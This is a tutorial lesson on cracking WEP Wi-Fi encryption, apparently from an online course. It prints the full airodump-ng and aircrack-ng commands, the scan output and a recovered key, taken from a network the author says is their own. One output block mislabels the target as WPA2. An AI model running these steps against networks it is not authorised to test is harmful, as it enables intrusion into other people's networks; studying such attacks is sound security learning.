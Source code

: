 ```yaml
---
title: WEP Cracking Basics
type: default
layout: page
---
```


From the previous lesson, we learned that in order to crack a network whose
encryption is WEP, first we need to capture a big number of packets, that also
means that we will capture a lot of IVs and due to its small size they will
start to get repeated, this will allow us to use a tool called _aircrack-ng_ to
execute a statistical attack and obtain the WEP key.

First, we'll use _airodump-ng_ to capture the data, then we'll use _aircrack-ng_
to analyse them and obtain the key.

```bash
CH  9 ][ Elapsed: 0 s ][ 2020-12-31 08:48                                         
                                                                                                  
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                  
 9C:C8:FC:4D:01:8F  -71        2        0    0  11  54e. WPA2 CCMP   PSK  FamiliaH                
 9C:C8:FC:4D:10:CA  -23        4        2    0   6  54e. WEP  WEP    PSK  TIGO-7A54               
 50:75:F1:EA:83:A2  -69        5        0    0   1  54e. WPA2 CCMP   PSK  PEDROJUAN               
 D4:CA:6D:B9:78:E9  -77        3        6    0   1  11 . WPA2 CCMP   PSK  Verito                  
 C4:27:95:62:EE:1E  -64        2        0    0  11  54e  WPA2 CCMP   PSK  HOME-EE1E               
                                                                                                   
 BSSID              STATION            PWR   Rate    Lost    Frames  

```

I executed airodump-ng against all the networks around me and as you can see
there's only one network using the WEP encryption, that network is called
"_TIGO-7A54_", this is the network that I use everyday I simply changed its
encryption.

As I said before, we'll need a network with a high a continuous packet flow, as
my network is not that active I will be generating these packets by myself, in
the next lessons I will show you how you can also generate those packets.

I will execute airodump-ng against this network only, we already know how to do
that. We'll execute the command "_airodump-ng_" and we'll use the argument
"_--bssid_" to specify the BSSID of our target network, then we'll write
"_--channel_" followed by the channel in which our target network is being
executed, we'll also need to write all the captured data into a file, to do that
we'll use the "_--write_" argument, I will set the file name to "_basicattack_"
and finally, we will pass the name of our interface in monitor mode. My command
looks like this:

```bash
airodump-ng --bssid 9C:C8:FC:4D:10:CA --channel 6 --write basicattack wlp2s0mon
```

Output:

```bash
 CH  6 ][ Elapsed: 6 s ][ 2020-12-31 08:53                                         
                                                                                                  
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                  
 9C:C8:FC:4D:10:CA  -19 100       88    16827    1   6  54e. WPA2 CCMP   PSK  TIGO-7A54           
                                                                                                  
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```

If your network's packet flow (traffic) is high and continuous, you'll note that
the values under the "_#Data_" column will start increasing very fast. I talked
about this briefly before. Basically, what is under the "_#Data_" section is the
number of useful packets, those are the packets that contain a different IV
(Initialisation vector) and we will be able to use it later on for crack the
password of the network, so, the greater the number of these packets are, the
greater our possibilities to crack the password are.

If your target network doesn't behave this way, don't worry, in the next lessons
I will teach you to generate this traffic all by yourself.

Once you have enough packets, you'll open a new terminal (or if your terminal
supports several tabs, create a new one), you'll _cd_ to the directory where the
files generated by the previous command are stored and execute _ls_ to list them
all (be sure to check if the file "_basicattack-01.cap_" exists).

Now, what's just left to do is execute "_aircrack-ng_" on this file, to do so,
just execute "_aircrack-ng_" followed by the name file, in my case the command
looks like this:

```bash
aircrack-ng basicattack-01.cap
```

When you execute that command, if the number of packets is enough to obtain the
key, you'll see that "_aircrack_ng_" will tell us that the key was found and now
we can connect to the _WEP_ network.

My aircrack-ng output:

```bash
Opening basicattack-01.cap
Read 226934 packets.

   #  BSSID                   ESSID                 Encryption
   1  9C:C8:FC:4D:10:CA       TIGO-7A54             WEP (102740 IVs)

Choosing first network as target.

Opening basicattack-01.cap
Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 102740 ivs.
                     KEY FOUND! [ 30:31:32:33:34 ] (ASCII: 01234)
        Decrypted correctly: 100%
```

If _aircrack-ng_ returned the ASCII password, that's to say, in plain text, you
can use that password to connect to the network. If that's not your case, you
can just copy the other key (_30:31:32:33:34_), delete the colons and use that
key to connect to the network (3031323334).
